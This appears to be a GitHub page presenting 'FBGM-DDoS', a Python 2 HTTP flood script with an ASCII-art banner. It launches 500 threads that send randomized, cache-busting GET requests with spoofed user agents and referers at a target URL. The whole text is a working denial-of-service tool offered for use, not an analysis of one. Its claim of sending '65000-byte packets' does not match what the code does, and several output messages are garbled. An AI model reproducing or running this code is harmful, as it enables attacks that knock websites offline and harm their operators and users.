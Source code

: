# FBGM-DDoS
Hard-Hitting ddos script 
import urllib2
import sys
import threading
import random
import re

#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)

#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)
def usage():

	print ('---------------------------------------------------')
	print 'USAGE: python httpdoser.py <url>'
	print 'httpdoser website : DDoS Attack'
	print "\a"
print \
"""
                   ...
                 ;::::;   FBGM-DDoS...
               ;::::; :;    By CRIMExSPREE
             ;:::::'   :;
            ;:::::;     ;.
           ,:::::'       ;           OOO\
           ::::::;       ;          OOOOO\
           ;:::::;       ;         OOOOOOOO
          ,;::::::;     ;'         / OOOOOOO
        ;:::::::::`. ,,,;.        /  / DOOOOOO
      .';:::::::::::::::::;,     /  /     DOOOO
     ,::::::;::::::;;;;::::;,   /  /        DOOO
    ;`::::::`'::::::;;;::::: ,#/  /          DOOO
    :`:::::::`;::::::;;::: ;::#  /            DOOO
    ::`:::::::`;:::::::: ;::::# /              DOO
    `:`:::::::`;:::::: ;::::::#/               DOO
     :::`:::::::`;; ;:::::::::##                OO
     ::::`:::::::`;::::::::;:::#                OO
     `:::::`::::::::::::;'`:;::#                O
      `:::::`::::::::;' /  / `:#
       ::::::`:::::;'  /  /   `#
"""
print '---------------------------------------------------'


#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(5,10)))
	request.add_header('Keep-Alive', random.randint(110,120))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			#print e.code
			set_flag(1)
 			print 'Flooding WebSite Port 80 with 65000-byte packets for 99999'
			code=500
	except urllib2.URLError, e:
			#print e.reason
			sys.exit()
	else:
			inc_counter()
			urllib2.urlopen(request)
	return(code)


#http caller thread
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+100<request_counter) & (previous<>request_counter):
				print "%d Shots sends Senting" % (request_counter)
				previous=request_counter
		if flag==2:
			print "\n -M60 Hits are secced"

#execute
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print "Flooding WebSite Port 80 with 65000-byte packets for 99999 By DDoS Attack"
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2:
			url = url + "/"
		m = re.search('http\://([^/]*)/?.*', url)
		host = m.group(1)
		for i in range(500):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()

